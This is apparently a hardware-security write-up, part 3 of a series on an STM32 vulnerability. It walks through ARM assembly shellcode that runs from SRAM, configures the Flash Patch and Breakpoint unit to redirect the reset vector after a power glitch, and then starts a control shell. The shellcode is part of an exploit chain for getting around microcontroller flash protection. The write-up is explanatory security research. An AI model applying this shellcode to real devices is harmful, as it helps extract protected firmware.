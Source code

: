 # A QUICK(ish) LOOK AT STM32 HARDWARE SECURITY (PART 3)

***31/12/21***

***Follow up from [part 2](./cve-2020-13466-1.md). I will be taking a look at SRAM shellcode that configure BFP.***

## 1. Entry

The entry point and BFP configuration code is all in this assembly file. The other c code file is only for control shell, thus not important to our goal here.

This is a custom interrupt vector table. Remember that because we are booting from SRAM, it will be aliased to addess 0x0. And the first ection is interrupt vector table. Read \[[1]]\] chapter 10.1.2 for details.

```arm
isrVectors:
    .word 0x20005000
    .word _start+1
    .word vecNMI+1
    .word vecHardfault+1
    .word vecMemMan+1
    .word 0
    .word 0
    .word 0
    /* These is the stage 2 entry point */
    .word stage2+1
```

From this:

- Our entry is _start function
- All unexpected exception will call alert function
- Any syscall attempt with swi will call stage2 function

## 2. BFP briefing

Before getting into the source. We first take a look at BFP, there are little information about this within STM documentations. You can take a look at ARM\'s own Cortex-M3 technical reference \[[2]\], chapter 7.3, for a sumary of what BFP does. Further details can be found in ARMv7-M Architecture Reference Manual \[[3]\], chapter C1.11.

In short, BFP allow user to apply a patch to ROM using EEPROM or flash. This allow code patching after the device ROM is programmed and bugs are found in the ROM, without having to replace the whole device. A piece of startup code is needed to check if there are any patch data in programable ROM.

When the processor access memory location that matched by FPB comparator, the address is remapped (\[[2]\] - C7.3.1). How the shell code configure BFP will be described bellow.

## 3. Stages

### 3.1. _start

```arm
_start: /* stage 1 */
    ldr r0, =0xe0002000
    movs r1, #3                                                                                  
    movs r3, #0x05                                                                                  
    movs r2, #0x20                                                                               
    stm r0!, {r1, r2, r3}                                                                      
sinfl:  b sinfl
```

0xe0002000 is address of FlashPatch Control Register, FP_CTRL. Here 0x3 is written to enable FPB.

![FP_CTRL_1](./imgs/FP_CTRL_1.png)
![FP_CTRL_2](./imgs/FP_CTRL_2.png)

Next FP_REMAP register is written with 0x20, mark the start of the remap vector.

![FP_REMAP](./imgs/FP_REMAP.png)

Lastly 0x5 is written to FP_COMP0, one of 8 supported comparator. Enable it to compare with address 0x4.

Now when FP_COMP0 is matched, it will pull FP_REMAP[0] address to remapped to, look at our ISR, 0x4 is reset and FP_REMAP[0] is stage2 address.

Mystery solved, this run after the power glitch.

### 3.2. stage2

```arm
stage2:
    /* Update the FPB */
    ldr r0, =0xe0002000
        movs r1, #3                                                                                  
        movs r3, #0x05                                                                                  
        movs r2, #0x20                                                                               
        stm r0!, {r1, r2, r3}                                                                      

    /* Set stack pointer */
    ldr r0, =isrVectors
    ldr r0, [r0]
    mov sp, r0

    cpsie if

    /* Configure VTOR */
    ldr r0, =0xe000ED08
    ldr r1, =isrVectors
    str r1, [r0]

    ldr r0, =_bss_end
    ldr r1, =_bss_start
    mov r3, #0

    clrloop:strd r3, r3, [r1]
    add r1, r1, #8
    cmp r1, r0
    bne clrloop

    bl main

    infloop:
    b infloop
```

This code run after we set boot mode back to boot from flash. BFP data remains and again reset by the first part of this shellcode. The latter part is for configuring for the main function. Not much to talk about.

## References

1. [STM32F1 Reference Manual](https://www.st.com/resource/en/reference_manual/cd00171190-stm32f101xx-stm32f102xx-stm32f103xx-stm32f105xx-and-stm32f107xx-advanced-arm-based-32-bit-mcus-stmicroelectronics.pdf)
2. [ARM Cortex-M3 Technical Reference Manual](https://documentation-service.arm.com/static/5e8e107f88295d1e18d34714)
3. [ARMv7-M Architecture Reference Manual](https://documentation-service.arm.com/static/5f8fef3af86e16515cdbf816?token=)

[1]: https://www.st.com/resource/en/reference_manual/cd00171190-stm32f101xx-stm32f102xx-stm32f103xx-stm32f105xx-and-stm32f107xx-advanced-arm-based-32-bit-mcus-stmicroelectronics.pdf
[2]: https://documentation-service.arm.com/static/5e8e107f88295d1e18d34714
[3]: https://documentation-service.arm.com/static/5f8fef3af86e16515cdbf816?token=